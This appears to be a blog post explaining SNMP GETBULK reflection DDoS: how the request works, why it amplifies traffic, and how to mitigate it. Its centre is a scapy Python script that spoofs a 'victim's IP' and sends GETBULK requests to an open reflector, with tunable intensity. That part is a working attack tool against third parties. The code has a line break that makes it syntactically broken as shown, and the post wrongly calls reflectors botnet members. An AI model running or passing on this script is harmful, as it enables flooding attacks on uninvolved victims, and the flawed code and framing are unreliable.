 ```yaml
---
title: "SNMP 'GETBULK' Reflection DDoS – Weaponizing Network Services"
author: "Jamie Warren Philippe"
date: "2025-02-13"
categories: [Cybersecurity, DDoS, Exploits, SNMP]
tags: [SNMP, GETBULK, Reflection Attack, DDoS, Exploitation]
---
```


# 🚀 SNMP 'GETBULK' Reflection DDoS – Weaponizing Network Services

## **Introduction**
Ever heard of **SNMP GETBULK?** If not, congratulations on not being a network engineer. If yes, then you probably know that **Simple Network Management Protocol (SNMP)** is supposed to make life easier—but surprise! It can also be used to wreak havoc on networks through **reflection-based DDoS attacks**. 

Today, we’ll explore:
1. **How SNMP 'GETBULK' works** (for those who don’t love reading RFCs for fun).
2. **How attackers abuse it for DDoS reflection** (because of course they do).
3. **How to simulate the attack** (for *educational purposes*, obviously).
4. **How to prevent your network from being an unwilling accomplice** (unless you *want* to be a botnet).

## **How SNMP 'GETBULK' Works**
SNMP is typically used for network monitoring, allowing admins to query devices for status updates. The **GETBULK request** is part of SNMPv2 and is meant to efficiently retrieve large amounts of data at once (because who wants to send multiple small queries?).

A typical **GETBULK request** structure looks like this:

| **Field**           | **Description**                                    |
|---------------------|----------------------------------------------------|
| `Version`           | SNMP version (usually v2c for bulk requests)       |
| `Community`         | Shared secret (default: 'public', because why not?)|
| `PDU Type`          | **GETBULKREQUEST** identifier                      |
| `Request ID`        | Unique identifier for the request                  |
| `NonRepeaters`      | Number of single-instance variables to retrieve    |
| `MaxRepetitions`    | **How many values to return** (can be abused)      |
| `Variable Bindings` | List of OIDs (Object Identifiers) being queried |

Normally, this helps **network admins** get bulk data efficiently. But guess what? **Attackers don’t care about efficiency—they care about bandwidth amplification.**

## **How SNMP 'GETBULK' Becomes a DDoS Amplification Tool**
Reflection DDoS attacks work by **spoofing** the source IP address of requests, making a victim think they’re receiving replies from legitimate sources. SNMP **GETBULK** is perfect for this because:

- The attacker sends a **small query** to an SNMP-enabled device.
- The device sends back a **massive response** to the spoofed IP (the victim).
- Multiply this by thousands of devices, and suddenly, the victim’s network is drowning in data.

💡 **Amplification factor:** Depending on how **misconfigured** (or *helpful*) the SNMP device is, the response can be **up to 100x the original request size.** That’s *free bandwidth* for attackers and *bad news* for targets.

## **Python Script to Simulate a GETBULK Reflection Attack**
Want to see it in action? Here’s a simple **Python script** that sends SNMP **GETBULK** requests to an open SNMP server while spoofing the victim’s IP. (Obviously, use responsibly.)

```python
from scapy.all import *
import random

# Target SNMP server (reflector) and victim
REFLECTOR_IP = "192.168.1.100"  # Change this to an open SNMP server
VICTIM_IP = "203.0.113.50"  # Change this to your victim’s IP
SNMP_PORT = 161  # Default SNMP port

# Craft an SNMP GETBULK request (basic structure)
def craft_snmp_getbulk():
    snmp_packet = IP(src=VICTIM_IP, dst=REFLECTOR_IP) / UDP(sport=random.randint(1024, 65535), dport=SNMP_PORT) /
        SNMP(version=2, community="public", PDU=SNMPbulk(id=random.randint(1000, 9999), non_repeaters=0, max_repetitions=50))
    return snmp_packet

# Send SNMP GETBULK packets
def send_reflection_attack():
    print(f"[+] Sending spoofed SNMP GETBULK requests to {REFLECTOR_IP}, victim: {VICTIM_IP}")
    for _ in range(10):  # Adjust for desired intensity
        packet = craft_snmp_getbulk()
        send(packet, verbose=False)
    print("[+] Packets sent!")

send_reflection_attack()
```

## **Expected Outcomes**
- **If the SNMP server replies to the victim’s IP with a huge response** → You’ve confirmed a reflection vulnerability.
- **If nothing happens** → The SNMP server might be properly secured (*shocking!*).
- **If you accidentally crash something** → Whoops. Maybe don’t test this on production?

## **Mitigation & Defense Strategies**
Tired of being part of a botnet? Here’s how to avoid it:

✅ **Disable SNMP if you don’t use it.** (Seriously, most people don’t even need it.)
✅ **Restrict SNMP to internal networks.** (Your printer does *not* need to talk to the entire internet.)
✅ **Use strong SNMP community strings.** (Change ‘public’ to something *not* guessable.)
✅ **Rate-limit SNMP responses.** (Your device doesn’t need to flood the internet with responses.)
✅ **Block UDP port 161 from untrusted sources.** (If it’s public, you’re *asking* for trouble.)
✅ **Upgrade to SNMPv3 with authentication.** (SNMPv2c is basically an open bar for attackers.)

## **Conclusion**
SNMP 'GETBULK' is a great tool for network management—until it isn’t. With a **100x amplification factor**, it’s a favorite among DDoS attackers looking to overwhelm targets with reflected traffic. 

The good news? **A few simple security measures** can prevent your devices from being hijacked into a botnet. So lock it down before someone turns your innocent network printer into a DDoS cannon. 🔥

---

🔹 **Want to see more network exploitation techniques?** Stay tuned for upcoming posts! 🚀

💬 **Got thoughts or questions?** Drop them below, or complain to your local IT admin! 😉

